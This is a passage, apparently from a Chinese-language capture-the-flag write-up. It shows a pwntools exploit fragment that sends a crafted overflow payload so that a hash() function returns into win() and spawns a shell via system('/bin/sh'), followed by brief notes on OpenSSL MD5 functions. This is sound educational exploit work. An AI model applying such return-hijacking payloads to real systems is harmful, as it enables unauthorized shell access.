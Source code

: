 ```python
        r.close()
            
payload = b'\x00' * 1023 \
            + b'\x00' * 20 \
            + b'\xff' * 4 \ 
            + magic
            
r.sendlineafter("\x1B[1minput:\x1B[0m ", payload)
r.interactive()
```

當 nonce 為 2 時，process 會在 `hash()` return 到 `win()` 裡面的 `system("/bin/sh")`。



**openssl/md5**:

- `MD5_Init()`: 設置 md5 magic number
- `MD5_Update()`: 可以重複執行此 function，能夠把不同的 data 組在一起做 md5
- `MD5_Final()`: 輸出結果並將結果存入 dst

